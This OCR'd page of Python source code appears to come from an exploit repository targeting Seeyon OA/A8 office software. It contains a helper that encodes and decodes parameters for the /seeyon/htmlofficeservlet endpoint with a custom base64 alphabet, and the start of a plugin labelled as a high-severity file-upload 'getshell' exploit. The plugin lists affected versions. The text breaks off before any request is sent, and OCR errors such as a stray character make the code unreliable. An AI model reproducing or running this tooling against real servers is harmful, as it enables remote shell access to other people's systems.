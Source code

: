     def base64_decode(input_str):
        str_ascii_list = ['{:0>6}'.format(str(bin(letters.index(i))).replace('0b', ''))
                          for i in input_str if i != '=']
        output_str = ''
        equal_num = input_str.count('=')
        while str_ascii_list:
            temp_list = str_ascii_list[:4]
            temp_str = ''.join(temp_list)
            if len(temp_str) % 8 != 0:
                temp_str = temp_str[0:-1 * equal_num * 2]
            temp_str_list = [temp_str[x:x + 8] for x in [0, 8, 16]]
            temp_str_list = [int(x, 2) for x in temp_str_list if x]
            output_str += ''.join([chr(x) for x in temp_str_list])
            str_ascii_list = str_ascii_list[4:]
        return output_str
    
    if __name__ == "__main__":
        if len(argv) == 2:
            print(base64_decode(argv[1]))
        elif len(argv) == 3:
            if argv[1] == '-d':
                print(base64_decode(argv[2]))
            else:
                print(base64_encode(argv[2]))
        else:
            print("Seeyon OA /seeyon/htmlofficeservlet param encode/decode")
            print("Usage:")
            print("python %s encoded_str" % argv[0])t
            print("python %s -d encoded_str" % argv[0])
            print("python %s -e raw_str" % argv[0])

```
#!/usr/bin/env python
# -*- coding: utf-8 -*-

import time
import random
import string
import requests

info = {
    "name": "致远 A8 可 getshell",
    "author": "reber",
    "version": "致远A8-V5协同管理软件V6.1sp1、致远A8+协同管理软件V7.0、V7.0sp1、V7.0sp2、V7.0sp3、V7.1",
    "type": "file_upload",
    "level": "high",
    "result": "",
    "status": False,
    "references": "<url>",
    "desc": "<vul describtion>",
}

def assign(service, arg):
   if service == 'seeyon':
       return True, arg

def encode(origin_bytes):
    """
    重构 base64 编码函数
    """
    # 将每一位bytes转换为二进制字符串
    base64_charset = "gx74KW1roM9qwzPFVOBLSlYaeyncdNbI=JfUCQRHtj2+Z05vshXi3GAEuT/m8Dpk6"
    base64_bytes = ['{:0>8}'.format(bin(ord(b)).replace('0b', '')) for b in origin_bytes]

    resp = ''
```